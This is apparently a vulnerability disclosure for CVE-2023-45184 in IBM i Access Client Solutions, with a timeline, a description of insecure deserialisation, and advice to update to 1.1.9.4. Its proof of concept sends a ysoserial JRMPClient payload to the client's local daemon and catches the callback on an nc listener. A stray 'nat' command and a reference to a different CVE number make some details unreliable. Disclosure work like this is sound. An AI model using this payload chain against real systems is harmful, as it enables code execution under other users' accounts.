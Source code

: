 # CVE-2023-45184
IBM i Access Client Solutions < 1.1.9.4 - Remote code execution via insecure deserialisation.

## Timeline
- Vulnerability reported to vendor: 22.09.2023
- New fixed 1.1.9.4 version released: 08.12.2023
- Public disclosure: 15.12.2023

## Description

IBM i Access Client Solutions uses insecure deserialisation for password storage and obtaining decryption key for password encryption. This could be used by local or remote attacker to execute code. 

The local server can be easily found using the `netstat' command:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ netstat -nltp | grep java
tcp6       0      0 :::34307                :::*                    LISTEN      3225094/java         off (0.00/0/0)
```

We can confirm details about this local server using the `ps` command:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ ps aux | grep java
mmajchr+ 3224938  6.8  0.9 13305316 301392 pts/6 Sl+  12:30   0:17 java -jar ./acsbundle_1.9.new.jar
mmajchr+ 3225094  0.3  0.2 11512420 79692 pts/6  Sl+  12:30   0:00 /usr/lib/jvm/java-17-openjdk-amd64/bin/java -Djava.class.path=/tmp/ACS.lm13910263510749358977.jar -Dvisualvm.display.name=ACS Daemon -Dcom.ibm.tools.attach.displayName=ACS Daemon com.ibm.iaccess.base.LmHybridServerImpl
mkubiak  3238934  0.0  0.0   6464  1992 pts/12   R+   12:44   0:00 grep --color=auto java
```

We can achieve code execution by the user `mmajchrowicz` using the `ysoserial` payload from the `mkubiak` account:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ id
uid=1012(mkubiak) gid=1012(mkubiak) groups=1012(mkubiak),27(sudo)

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ java -jar ysoserial.jar JRMPClient '127.0.0.1:9191' > jrmp.bin

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ (sleep 3; cat jrmp.bin) | nat -6 ::1 34307 

```

In second terminal we will receive connection after execution of payload by service:
```
┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$ nc -lvnp 9191
listening on [any] 9191 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 38012
JRMIK

┌──(mkubiak㉿localhost)-[/tmp/mkubiak]
└─$
```

This problem was caused by an insecure deserialisation of network packets and user data. This issue is fixed in IBM i Access Client Solutions 1.1.9.4.

## Affected versions
< 1.1.9.4

## Advisory
Update IBM i Access Client Solutions to 1.1.9.4 or newer.

### References
* https://www.ibm.com/support/pages/node/7091942
* https://nvd.nist.gov/vuln/detail/CVE-2023-45185
